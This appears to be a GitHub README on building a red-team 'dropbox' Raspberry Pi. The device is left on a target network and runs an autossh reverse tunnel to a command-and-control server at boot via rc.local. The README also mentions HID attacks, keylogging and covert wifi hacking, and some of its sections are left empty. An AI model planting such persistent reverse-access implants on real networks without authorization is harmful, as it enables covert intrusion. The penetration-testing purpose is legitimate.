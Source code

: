 # dropbox
I have 2 raspberry pi's that I use for red teaming. One of them is p4wnp1 which is an HID hacking tool that is running Kali Linux on a raspberry pi zero.
I also have a raspberry pi 4 that I use as a dropbox. I will describe how I got this to work and how I set everything up.

## command and control server
To get this whole thing to work I need a command and control server.
This server can be used by the dropbox to connect to it.
This server must be always reachable otherwise the dropbox can't be connected to so will be useless.
This server can be a digital ocean server because I have a server at home I could also use that but for security reasons, I will use a digital ocean VPS.
I have created a droplet with the least resources because there isn't much required from this server.
![Digital Ocean](images/digitalocean.png)

One of the key components of a dropbox is to get a connection remotely after dropping it somewhere.
This can be accomplished by a reverse ssh connection or a reverse VPN connection.
For this to work 

## Raspberry pi 4
I already have Kali Linux for arm installed on my raspberry pi 4 but this is not enough for using it as a dropbox.
To set this up you want it to be able to be dropped somewhere easy and fast and connect to it remotely after dropping it.

To get the dropbox to work I needed that kali to automatically login because if we don't do that the pi won't connect to the internet.
I have created keys and copied them to all the needed devices to have a secure connection with key authentication.

### Autossh
auto ssh needs to be installed this makes a connection with an ssh server and keeps monitoring it for reconnection.
I use keys for authentication these keys I copied before.
To make autossh work it needs to be running at bootup.
I used rc-local to run it on bootup by using this code in /etc/systemd/system/rc-local.service

```
[Unit]
 Description=/etc/rc.local Compatibility
 ConditionPathExists=/etc/rc.local
[Service]
 Type=forking
 ExecStart=/etc/rc.local start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

I also added the next code to /etc/rc.local
```
#!/bin/bash -e
autossh -M $mp -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 60" -o "ServerAliveCountMax 3" -R $FUID:localhost:22 -i /root/.ssh/id_rsa $cncuser@$cncip &
exit 0
```

After setting up all of this I can ssh into the pi 4 without being connected to the same network through the command and control server.

## Improvements
I have attached a wireless USB adapter to have more range and wifi hacking possibilities.
I also handmade a small ethernet cable to make it more convenient when dropping it and making it less bulky.
There is an external battery to make it possible to drop in places where you can't use a wall socket.
After some time with tinkering around with the autossh, I thought it would be better to use a [reverse vpn](#reverse-vpn-gateway) that way I have full access over the machine not only ssh.
This I will do in combination with the auto ssh to always have a backup if anything goes wrong with one of them.
![pi4 dropbox](images/dropboxpi4.jpg)

## P4wnp1
The p4wnp1 is running a full set of kali linux it also has access to HID attacks.
Because of this it is really interesting to make this toolkit remotely accessible.
This way you have a small machine with all the potention without having to stay at a certain location
You don't have much resources but that is not always needed.
The only downsite is that without any adapters you only have wifi to access the internet.
So you need to have the wifi password to use p4wnp1 as a dropbox.

### Reverse vpn gateway


# Usages
these dropboxes can be used for multiple things.
- remotely have access to a pentest location.
- remotely doing some wifi hacking without being noticed for being a long time in a place.
- Getting access to a secured environment without staying there for too long.
- in the case of p4wnp1 remotely executing HID attacks or keylogging.